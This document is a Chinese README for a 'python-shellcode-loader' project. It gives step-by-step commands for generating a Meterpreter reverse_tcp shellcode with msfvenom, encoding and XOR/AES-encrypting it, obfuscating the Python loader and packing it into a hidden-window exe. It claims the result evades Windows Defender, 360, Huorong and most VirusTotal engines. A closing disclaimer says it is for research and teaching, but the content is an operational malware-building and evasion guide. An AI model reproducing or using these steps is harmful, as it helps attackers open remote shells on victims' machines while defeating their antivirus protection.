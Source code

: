 # python-shellcode-loader

<a name="ptTMq"></a>
## 简单介绍
免杀方式 msfvenom生成raw格式的shellcode-->base64-->XOR-->AES<br />将python代码缩小并混淆最后生成exe<br />目前过DF、360和火绒  virustotal：7/66过卡巴斯基、迈克菲等
<a name="H2jnt"></a>
## 获取项目
git clone [https://github.com/HZzz2/python-shellcode-loader.git](https://github.com/HZzz2/python-shellcode-loader.git)<br />cd python-shellcode-loader
<a name="CuRMC"></a>
## 生成shellcode
#生成shellcode<br />`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=9999 -f raw > rev.raw`
<a name="rNUTI"></a>
## base64编码shellcode并替换jiami.py中的值
#base64<br />`base64 -w 0 -i rev.raw > rev.bs64`<br />`cat rev.bs64`<br />复制base64的值替换jiami.py中payload       也就是 第二十五行 sc='payload' 
<a name="uXwYU"></a>
## 加密base64并替换main.py中的值
#加密base64后的shellcode<br />`python3 jiami.py`<br />#会生成一个aes-xor.txt的文件，复制文件里的值(经过XOR和AES加密后)<br />复制的值替换main.py中的payload   也就是第四十一行 jiami_sc='payload'
<a name="RhzZp"></a>
## 缩小和混淆py代码
<a name="K5dP3"></a>
### 缩小python代码
`pyminify main.py --output main-mini.py`
<a name="PTqkf"></a>
### 混淆main-mini.py中的python代码
[https://pyob.oxyry.com/](https://pyob.oxyry.com/)  在线混淆<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/26697321/1654524591386-7385c972-05e4-4761-bac3-311ae4ab2b0c.png#clientId=ufd1019e1-55bc-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=531&id=u32a8913b&margin=%5Bobject%20Object%5D&name=image.png&originHeight=664&originWidth=1919&originalType=binary&ratio=1&rotation=0&showTitle=false&size=192572&status=done&style=none&taskId=uf5d03036-4fc8-4141-aec3-77143fc268e&title=&width=1535.2)<br />将混淆后的代码保存到一个文件中，比如文件名为:main-mini-ob.py
<a name="s0SXj"></a>
## 打包成可执行文件exe
#打包成exe<br />`pyinstaller.exe -Fw -i .\setting.ico --key=leslie .\main-mini-ob.py`<br />-F 打包为单文件 -w 不显示窗口   -i ico图标文件  --key  加密字节码的密钥<br />等待打包完成。。。。<br />打包好后的可执行程序在dist目录中
<a name="dr6Hv"></a>
## 流程图
![](https://cdn.nlark.com/yuque/0/2022/jpeg/26697321/1654524239719-d5ff881a-602c-4508-81b8-8e14c0d41595.jpeg)
<a name="SyXYB"></a>
## 检测图
![](https://cdn.nlark.com/yuque/0/2022/png/26697321/1654525156343-d09e4ca2-cf34-4fd0-a214-8429d736233d.png#crop=0&crop=0&crop=1&crop=1&from=url&id=pOHgi&margin=%5Bobject%20Object%5D&originHeight=1017&originWidth=1286&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/26697321/1654525200953-17958e93-4b05-4571-b721-1fa0899cab6f.png#clientId=ufd1019e1-55bc-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=609&id=uc52334d8&margin=%5Bobject%20Object%5D&name=image.png&originHeight=761&originWidth=1286&originalType=binary&ratio=1&rotation=0&showTitle=true&size=152617&status=done&style=none&taskId=uf646b4ab-a4ff-4915-ac9c-247f27f5b44&title=%E7%81%AB%E7%BB%92&width=1028.8 "火绒")<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/26697321/1654525256207-e8a9c46a-c6ed-4dbc-9b23-056590331f50.png#clientId=ufd1019e1-55bc-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=742&id=uba33cae1&margin=%5Bobject%20Object%5D&name=image.png&originHeight=927&originWidth=1256&originalType=binary&ratio=1&rotation=0&showTitle=true&size=151849&status=done&style=none&taskId=ubcd89f76-ab00-4621-9849-4980386bb94&title=360%E6%9D%80%E6%AF%92&width=1004.8 "360杀毒")<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/26697321/1654525285242-8ab59c49-ba44-4a08-a61c-8553204b4c6b.png#clientId=ufd1019e1-55bc-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=658&id=uc0ddad1f&margin=%5Bobject%20Object%5D&name=image.png&originHeight=823&originWidth=1260&originalType=binary&ratio=1&rotation=0&showTitle=true&size=199897&status=done&style=none&taskId=uf2de339b-8045-4277-af70-6d0879a609b&title=360%E5%AE%89%E5%85%A8%E5%8D%AB%E5%A3%AB&width=1008 "360安全卫士")<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/26697321/1654525389400-740f14b8-a7d0-49ea-aa96-81f3326ca4aa.png#clientId=ufd1019e1-55bc-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=752&id=u509ce450&margin=%5Bobject%20Object%5D&name=image.png&originHeight=940&originWidth=1908&originalType=binary&ratio=1&rotation=0&showTitle=true&size=103618&status=done&style=none&taskId=ud3c698a7-1fc9-48f1-abdf-20d66f4def9&title=virustotal&width=1526.4 "virustotal")<br />[运行示例.mp4](https://www.yuque.com/attachments/yuque/0/2022/mp4/26697321/1654531695137-0d35f79f-8cbb-4d1c-96a3-ccef4744fb6b.mp4?_lake_card=%7B%22src%22%3A%22https%3A%2F%2Fwww.yuque.com%2Fattachments%2Fyuque%2F0%2F2022%2Fmp4%2F26697321%2F1654531695137-0d35f79f-8cbb-4d1c-96a3-ccef4744fb6b.mp4%22%2C%22name%22%3A%22%E8%BF%90%E8%A1%8C%E7%A4%BA%E4%BE%8B.mp4%22%2C%22size%22%3A9075464%2C%22type%22%3A%22video%2Fmp4%22%2C%22ext%22%3A%22mp4%22%2C%22source%22%3A%22%22%2C%22status%22%3A%22done%22%2C%22download%22%3Atrue%2C%22taskId%22%3A%22u4f7e269d-9214-4e7e-9b21-dc642edf43e%22%2C%22taskType%22%3A%22upload%22%2C%22__spacing%22%3A%22both%22%2C%22id%22%3A%22uf2aa31d4%22%2C%22margin%22%3A%7B%22top%22%3Atrue%2C%22bottom%22%3Atrue%7D%2C%22card%22%3A%22file%22%7D)


https://user-images.githubusercontent.com/22775890/172209225-080c2549-45cc-4135-a907-38738ab42df5.mp4



## 免责声明
仅供安全研究与教学之用，如果使用者将其做其他用途，由使用者承担全部法律及连带责任，本人不承担任何法律及连带责任。












